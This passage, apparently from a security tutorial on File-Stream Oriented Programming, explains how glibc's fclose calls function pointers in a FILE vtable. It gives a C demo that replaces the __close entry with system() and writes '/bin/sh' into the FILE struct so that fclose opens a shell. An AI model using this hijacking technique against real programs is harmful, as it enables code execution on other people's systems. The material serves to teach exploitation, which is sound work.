For example, when `fclose(FILE *ptr)` is called, the function pointer stored in the `__finish`  field in the struct will 
be called after freeing internal structures. 

## Attacking FILEs (File-Stream Oriented Programming)

If we are able to call file-related functions (fclose, fread, etc.) on a pointer we can redirect execution by creating 
entries in the `vtable` field in `_IO_FILE_plus`. I created an example program to demonstrate an attack by creating a 
fake `FILE` struct:

```c
// gcc -m32 test.c -o test

#include <stdio.h>
#include <stdlib.h>

void* vtable[] = {
    NULL, //    JUMP_FIELD(size_t, __dummy);
    NULL, //    JUMP_FIELD(size_t, __dummy2);
    NULL, //    JUMP_FIELD(_IO_finish_t, __finish);
    NULL, //    JUMP_FIELD(_IO_overflow_t, __overflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __underflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __uflow);
    NULL, //    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    NULL, //    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    NULL, //    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    NULL, //    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    NULL, //    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    NULL, //    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    NULL, //    JUMP_FIELD(_IO_sync_t, __sync);
    NULL, //    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    NULL, //    JUMP_FIELD(_IO_read_t, __read);
    NULL, //    JUMP_FIELD(_IO_write_t, __write);
    NULL, //    JUMP_FIELD(_IO_seek_t, __seek);
    system,  // JUMP_FIELD(_IO_close_t, __close);
    NULL, //    JUMP_FIELD(_IO_stat_t, __stat);
    NULL, //    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    NULL  //    JUMP_FIELD(_IO_imbue_t, __imbue);
};

int main(int argc, char** argv) {
    // Creates a file and overwrites the vtable field in the FILE struct
    FILE *fp = fopen("/dev/null", "r");
    size_t *vtable_addr = ((void *) fp) + sizeof(FILE);

    *vtable_addr = (size_t *)vtable;

    // Moves "/bin/sh\x00" to the start of the file pointer.
    // When system is called, it will interpret the FILE* as a char*, which
    // means that the interpreted string will be "/bin/sh" due to the null byte.
    strcpy(fp, "/bin/sh\x00");

    // Calls system with the FILE pointer as an argument. This should create
    // a shell.
    fclose(fp);

    return 0;
}
```
